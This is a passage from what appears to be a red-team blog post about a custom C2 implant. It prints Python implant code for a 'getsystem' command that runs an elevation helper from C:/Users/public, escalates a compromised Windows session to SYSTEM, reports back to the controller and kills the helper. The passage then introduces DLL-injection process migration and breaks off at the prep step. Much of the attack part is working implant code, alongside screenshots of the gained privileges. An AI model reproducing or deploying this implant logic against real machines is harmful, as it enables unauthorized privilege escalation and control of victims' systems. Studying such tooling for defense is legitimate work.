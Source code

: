 > **Client / Implant code** 🧟‍♂️

```python
if ":getsystem:" in data:
            victim=os.getlogin()
            if str(shell.IsUserAnAdmin()) == "False":
                print("Sorry but you need an elevated command prompt for escalating to [SYSTEM]")
                client.send(b"Sorry but you need an elevated command prompt for escalating to [SYSTEM]\n")
            elif os.getlogin() == "SYSTEM":
                print("You're already SYSTEM ;)")
                client.send(b"You're already SYSTEM ;)\n")
            else:
                proc = subprocess.Popen(["C:/Users/public/elevationstation.exe","-ti"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                #client.send(b"returned output: \n"+proc.stdout.read())
                time.sleep(7)
                #elevcli="c:/users/"+victim+"/AppData/Local/Programs/Python/Python313/python.exe c:/users/"+victim+"/documents/github/elevationstation_local/elev8cli.py\n"
                #proc.stdin.write(elevcli.encode('UTF-8'))
                proc.stdin.write(b"C:/Users/public/elev8cli.exe\n")
                proc.stdin.flush()
                client.send(b"[+] Wrapping things up!  You should have SYSTEM soon!\n")
                for elevateproc in psutil.process_iter():
                    if "elevationstation" in elevateproc.name():
                        elevateproc.kill()
```

Let's go on ahead and select our newly acquired elevated session:

![image](https://github.com/user-attachments/assets/c9844e5d-50e5-4035-87e5-aa00fc1bd1c5)

Next, we want to run `getsystem` like so:

![image](https://github.com/user-attachments/assets/745a4dd0-c7e4-420a-bc96-9ab82486ce4c)

Check it out, SYSTEM privs!!!!

![image](https://github.com/user-attachments/assets/4fdfe3ca-8166-4068-afbd-0dd9bc96b449)

I can't go into all the specifics on how this works.  That would make for quite the lengthy blog post 😸  I highly recommend checking out my ElevationStation series on my blog and see how it all works!  Last up, let's check out the migrate process functionality!

***Part 3 - Migrating our connection(s) into other processes!***
-

Okay, our last implementation for today!  Save the best for last right? 😸  For this technique, we have a little bit of prep to do first.  This technique uses DLL injection to inject into another process and migrate our session.  I'll include the prep files below.  As I said toward the beginning of this post, the `migrate` feature can migrate a non-admin session into another process, I think I made it `Notepad` by default.  If you're an admin, you can migrate into any process you like.

> **Prep**
